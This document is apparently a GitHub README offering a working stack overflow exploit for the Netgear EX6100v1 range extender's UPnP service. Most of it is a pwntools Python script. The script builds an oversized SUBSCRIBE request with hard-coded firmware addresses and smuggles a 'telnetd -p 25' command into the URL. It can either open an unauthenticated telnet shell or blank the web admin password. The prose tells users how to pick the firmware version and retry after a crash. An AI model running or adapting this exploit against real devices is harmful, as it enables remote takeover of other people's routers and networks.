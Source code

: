 # Netgear_product_stack_overflow

#### EX6100v1-exp

**The script of using ex6100 device is mainly written here. Because upnpd service is ported, there will be more devices affected by this vulnerability in addition to the devices officially notified. However, there are only ex6100 devices in hand, so there is only the script of using this device. The rest of the scripts can be explored by ourselves or communicated with me**

Before using the script, please determine the firmware version of the target machine. Because this script will crash the service. If the attack fails and the machine can be restarted next to it, the machine will automatically start the vulnerability service. After determining the firmware version, use the script again to succeed in the attack

```
#Aouth:doudoudedi
#please pip install pwn
from pwn import *
import sys
request=''
try:
	target_ip=sys.argv[1]
	target_version=sys.argv[2]
except:
	print("python ./exp.py ipaddress id")
	print("if you firmware version is EX6100-V1.0.2.28_1.1.138.chk or please EX6100-V1.0.2.28_1.1.136 id is 1")
	print("if you firmware version is EX6100-V1.0.2.24_1.1.134.chk id is 2")
	exit(0)

def generate_payload():
	global target_version,request
	if target_version=="1": 
		system_addr=0x00422848
		change_password=0x042C550
	if target_version=="2":
		system_addr=0x422828
		change_password=0x042C530
	aim=0
	print("1.open telnetd 25\n2.change http password (NULL)")
	choice=int(input())
	if(choice==1):
		aim=system_addr
		request = b"SUBSCRIBE /gena.telnetd${IFS}-p${IFS}25;?service=" + b"1" + b" HTTP/1.0\n"
		request += b"Host: " + b"192.168.1.0:" + b"80" + b"\n"
		request += b"Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
		request += b"NT: upnp:event\n"
		request += b"Timeout: Second-1800\n"
		request += b"Accept-Encoding: gzip, deflate\n"
		request += request+b"doud"
		request += request
		request = request.ljust(0x1f00,b"a")
		request += p32(0x7fff7030)
		request = request.ljust(0x1f48-0x14,b"a")
		request += p32(aim)
	if(choice==2):
		aim=change_password
		request = b"SUBSCRIBE /gena.telnetd${IFS}-p${IFS}25;?service=" + b"1" + b" HTTP/1.0\n"
		request += b"Host: " + b"192.168.1.0:" + b"80" + b"\n"
		request += b"Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
		request += b"NT: upnp:event\n"
		request += b"Timeout: Second-1800\n"
		request += b"Accept-Encoding: gzip, deflate\n"
		request += request+b"doud"
		request += request
		request = request.ljust(0x1f00,b"a")
		request += p32(0x7fff7030)
		request += p32(0x7fff7030)*12
		request += p32(0x42C550)
		request += p32(aim)


def attack():
	p=remote(target_ip,5000)
	p.send(request)
	#p.interactive()
#request += p32(0x422944)
#request += "a"*0x500
#request += p32(0x7fff7030)*8
if __name__=="__main__":
	generate_payload()
	attack()
```
example
![image-20220420111910096](./img/image-20220420170333428.png)

